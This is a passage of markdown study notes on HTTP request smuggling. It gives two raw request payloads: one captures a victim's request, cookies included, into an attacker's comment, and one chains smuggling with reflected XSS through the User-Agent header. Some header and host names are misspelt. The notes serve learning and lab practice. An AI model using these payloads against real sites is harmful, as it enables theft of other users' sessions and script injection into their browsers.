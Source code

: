 here we perform request smuggling Attack which smuggle the data storage request to the `back-end` server

```
GET / HTTP/1.1
Host: vuln-web.xom
Transfer-Emcoding: chunked
Content-Length: 324

0

POST /post/comment HTTP/1.1
Host: vuln-web.xom
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=sajkag7wryfb34wliue

csrf=v45b8qyl8yerih3nlewir&postId=2&name=dk&email=dk@dk.net&website=https://helo.net&comment=

```

here the victims request stored to the comment section of attacker.

### NOTE

- One limitation with this technique is that it will generally only capture data up until the parameter delimiter that is applicable for the smuggled request. For URL-encoded form submissions, this will be the `&` character, meaning that the content that is stored from the victim user's request will end at the first `&`, which might even appear in the query string.

## Using HTTP request Smuggling to Exploit XSS

- if an application is vulnerable to request smuggling and also contains reflected XSS , we use a request smuggling attack to hit other users of the application.
    - it required no interaction with victim users, we don't need to feed them a URL and wait to visit them, we just need to smuggle the request that is processing by the back-end server
    - it can be used to exploit XSS behavior in parts of the request that cannot be trivially controlled in normal `reflected XSSexample:` there is `reflected xss vuln in User-Agent` we exploit this using request smuggling

```
POST / HTTP/1.1
Host: vuln-web.com
Content-Length: 63
Transfer-Encoding: chunked

0

POST / HTTP/1.1
User-Agent: <script>alert(0)</script>
foo: x

```
